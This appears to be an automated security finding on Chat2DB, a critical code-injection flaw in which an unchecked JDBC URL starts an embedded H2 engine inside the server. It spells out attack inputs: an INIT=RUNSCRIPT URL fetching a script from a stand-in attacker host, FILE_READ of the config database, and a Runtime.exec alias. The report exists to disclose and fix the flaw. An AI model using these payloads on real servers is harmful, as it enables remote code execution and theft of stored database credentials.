

# Unvalidated JDBC URL opens embedded H2 inside server JVM: file read/write and RCE

| Field | Value |
|---|---|
| ID | `find_01GbU1ut66ENhcpLnvzSbxGT` |
| Severity | **Critical** |
| Status | open |
| CWE | CWE-94 — Code injection |
| Created | 2026-10-21T22:48:09.867910Z |
| Claude Security | https://claude.ai/security/findings/find_01GbU1ut66ENhcpLnvzSbxGT |

## Description

A logged-in team user can run code, read and write files, and steal every stored datasource credential on the Chat2DB server. Any user can do this with a crafted JDBC URL, and the report says the instance is internet-facing. The code at fault is `IDriverManager.getConnection`, which opens any URL and driver properties without a policy check, so an embedded H2 database starts inside the server process.

1. **logged-in user** sends a datasource request with an embedded H2 URL. The request goes to `/api/connection/datasource/pre_connect` with `type=H2` and a URL such as `jdbc:h2:mem:x;INIT=RUNSCRIPT FROM 'http://attacker/x.sql'`, and nothing is saved. ([`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java:248-258`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java#L248-L258))
2. **`IDriverManager.getConnection`** passes the URL and every `extendInfo` property to the loaded driver. `driverEntry.getDriver().connect(url, info)` is called with no check of the URL scheme, mode or settings. ([`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java:57-90`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java#L57-L90))
3. **H2 engine in the server JVM** starts inside the Chat2DB process and runs the `INIT` script. An embedded URL connects to nothing remote, and the first user of the new database becomes its administrator. ([`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java:57-90`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java#L57-L90))
4. **attacker as H2 administrator** reads the server's config database file. `FILE_READ` can copy `/root/.chat2db/db/chat2db.mv.db`, which holds every datasource record under the `release` profile. ([`chat2db-server/chat2db-server-domain/chat2db-server-domain-repository/src/main/java/ai/chat2db/server/domain/repository/Dbutils.java:148`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-repository/src/main/java/ai/chat2db/server/domain/repository/Dbutils.java#L148))
5. **attacker** decrypts the stored datasource passwords offline. The passwords are DES-encrypted with the hard-coded `DES_KEY`, so a copy of the config database yields plaintext credentials. ([`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/util/DesUtil.java:89`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/util/DesUtil.java#L89))

## Assessment

The attacker is any logged-in web or team user, and no victim action is needed. The default Docker image and the on-demand driver download are enough. One route is a single `POST /api/connection/datasource/pre_connect` (or `datasource/create`) with `type=H2`, `ssh:{use:false}` and an embedded URL with an `INIT=` setting. The other route is to create a `PRIVATE` datasource with `jdbc:h2:mem:x`, since only `SHARED` datasources are admin-only. The attacker then sends SQL to `/api/rdb/dml/execute`, for example `SELECT FILE_READ('/root/.chat2db/db/chat2db.mv.db')` or `CREATE ALIAS E AS $$...Runtime.exec...$$; CALL E('id')`. Other datasource types work too, because `driverConfig` (`jdbcDriver`, `jdbcDriverClass`) comes from the request and can name `org.h2.Driver` from `h2-2.1.214.jar`. The report assumes H2 2.1.214 behaves this way. Java aliases compile because the shipped `openjdk:17` image is a JDK.

Impact: The attacker gets arbitrary Java execution and file read and write as root in the Chat2DB container. That allows full disclosure of the config database (users, AI keys, datasource records) and arbitrary changes to server data and code, including making themselves ADMIN. The attacker can also stop or corrupt the service.

Subsequent-system impact: The decrypted datasource passwords and code execution on the Chat2DB host let the attacker reach every customer database Chat2DB is configured for. They get those credentials' rights and the server's network position.

## Recommendation

(1) `IDriverManager.getConnection` and its callers (`preConnect`, `createWithPermission`/`preWarmingData`, `updateWithPermission`, `DefaultDBManage.getConnection`) pass user-supplied JDBC URLs and driver properties to an in-process driver with no policy. An H2 datasource can therefore be an embedded engine with the caller as administrator.

Fix criteria: Before any `Driver.connect`, and again on datasource create and update, an H2 connection is allowed only in client/server mode (`tcp:` or `ssl:`). H2 is identified by the URL prefix `jdbc:h2:` or the driver class `org.h2.Driver`, whatever the datasource `type`. `INIT` and other script-running settings are rejected in both the URL and the properties. `pre_connect`, `create` and `dml/execute` with `jdbc:h2:mem:x`, `jdbc:h2:file:/tmp/x`, `jdbc:h2:~/x` or `;INIT=RUNSCRIPT` all fail before the driver is called.

(2) Users can choose the driver jar and class (`driverConfig`) for any datasource type. A per-plugin URL check can therefore be bypassed by pairing another type with `org.h2.Driver`.

Fix criteria: The driver used for a datasource is bound to its plugin's configured drivers, or the URL policy is applied per loaded driver class rather than per `type`. A datasource of another type whose custom `driverConfig` names `h2-2.1.214.jar` and `org.h2.Driver`, combined with an embedded URL, is refused.

## Evidence

**https://github.com/cx-benchmark/chat2db**

- [`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java:57-90`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/sql/IDriverManager.java#L57-L90)
- [`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java:248-258`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java#L248-L258)
- [`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java:92-121`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/impl/DataSourceServiceImpl.java#L92-L121)
- [`chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java:50-79`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-spi/src/main/java/ai/chat2db/spi/jdbc/DefaultDBManage.java#L50-L79)
- [`chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java:69-101`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-web/chat2db-server-web-api/src/main/java/ai/chat2db/server/web/api/aspect/ConnectionInfoHandler.java#L69-L101)
- [`chat2db-server/chat2db-plugins/chat2db-h2/src/main/java/ai/chat2db/plugin/h2/h2.json:7-14`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-plugins/chat2db-h2/src/main/java/ai/chat2db/plugin/h2/h2.json#L7-L14)
- [`chat2db-server/chat2db-server-domain/chat2db-server-domain-repository/src/main/java/ai/chat2db/server/domain/repository/Dbutils.java:148`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-repository/src/main/java/ai/chat2db/server/domain/repository/Dbutils.java#L148)
- [`chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/util/DesUtil.java:89`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/chat2db-server/chat2db-server-domain/chat2db-server-domain-core/src/main/java/ai/chat2db/server/domain/core/util/DesUtil.java#L89)
- [`docker/Dockerfile:2-12`](https://github.com/cx-benchmark/chat2db/blob/43aaee8d48736d74ac888dc4a81ddb50d6550638/docker/Dockerfile#L2-L12)

